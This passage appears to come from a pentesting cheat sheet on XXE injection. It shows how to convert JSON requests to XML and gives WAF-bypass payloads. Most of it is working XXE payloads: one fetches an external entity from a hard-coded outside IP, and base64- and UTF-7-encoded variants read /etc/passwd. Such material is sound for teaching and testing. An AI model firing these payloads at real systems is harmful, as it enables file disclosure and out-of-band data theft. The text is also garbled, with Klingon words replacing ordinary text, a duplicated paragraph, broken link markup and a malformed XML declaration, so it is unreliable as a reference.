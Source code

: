 To change the request you could use a Burp Extension named "**Content Type Converter**". [Here](https://exploitstube.com/xxe-for-fun-and-profit-converting-json-request-to-xml.html) you can find this example:

### Content-Type: JSON to XEE

To change the request you could use a Burp Extension named "**Content Type Converter**". [Here](https://exploitstube.com/xxe-for-fun-and-profit-converting-json-request-to-xml.html) you can find this example:
```xml
Content-Type: application/json;charset=UTF-8

{"root": {"root": {
"firstName": "Avinash",
"lastName": "",
"country": "United States",
"city": "ddd",
"postalCode": "ddd"
}}}
```

```xml
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://34.229.92.127:8000/TEST.ext" >]>
<root>
<root>
<firstName>&xxe;</firstName>
<lastName/>
<country>United States</country>
<city>ddd</city>
<postalCode>ddd</postalCode>
</root>
</root>
```
**Qapla'!** [Qap](https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2) **'ej** 'oH **ghItlh!**

## WAF 'ej Protections Bypasses

### Base64
```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```
**This only work if the XML server accepts the `data://` protocol.**

### UTF-7

You can use the \[**"Encode Recipe**" of cyberchef here ]\(\[[https://gchq.github.io/CyberChef/#recipe=Encode\_text%28'UTF-7](https://gchq.github.io/CyberChef/#recipe=Encode\_text%28'UTF-7) %2865000%29'%29\&input=PCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gIi9ldGMvcGFzc3dkIj4gXT4KPHN0b2NrQ2hlY2s%2BPHByb2R1Y3RJZD4mZXhhbXBsZTs8L3Byb2R1Y3RJZD48c3RvcmVJZD4xPC9zdG9yZUlkPjwvc3RvY2tDaGVjaz4)to]\([https://gchq.github.io/CyberChef/#recipe=Encode\_text%28'UTF-7 %2865000%29'%29\&input=PCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gIi9ldGMvcGFzc3dkIj4gXT4KPHN0b2NrQ2hlY2s%2BPHByb2R1Y3RJZD4mZXhhbXBsZTs8L3Byb2R1Y3RJZD48c3RvcmVJZD4xPC9zdG9yZUlkPjwvc3RvY2tDaGVjaz4%29to](https://gchq.github.io/CyberChef/#recipe=Encode\_text%28%27UTF-7%20%2865000%29%27%29\&input=PCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gIi9ldGMvcGFzc3dkIj4gXT4KPHN0b2NrQ2hlY2s%2BPHByb2R1Y3RJZD4mZXhhbXBsZTs8L3Byb2R1Y3RJZD48c3RvcmVJZD4xPC9zdG9yZUlkPjwvc3RvY2tDaGVjaz4%29to)) transform to UTF-7.
```xml
<!xml version="1.0" encoding="UTF-7"?-->
+ADw-+ACE-DOCTYPE+ACA-foo+ACA-+AFs-+ADw-+ACE-ENTITY+ACA-example+ACA-SYSTEM+ACA-+ACI-/etc/passwd+ACI-+AD4-+ACA-+AF0-+AD4-+AAo-+ADw-stockCheck+AD4-+ADw-productId+AD4-+ACY-example+ADs-+ADw-/productId+AD4-+ADw-storeId+AD4-1+ADw-/storeId+AD4-+ADw-/stockCheck+AD4-
```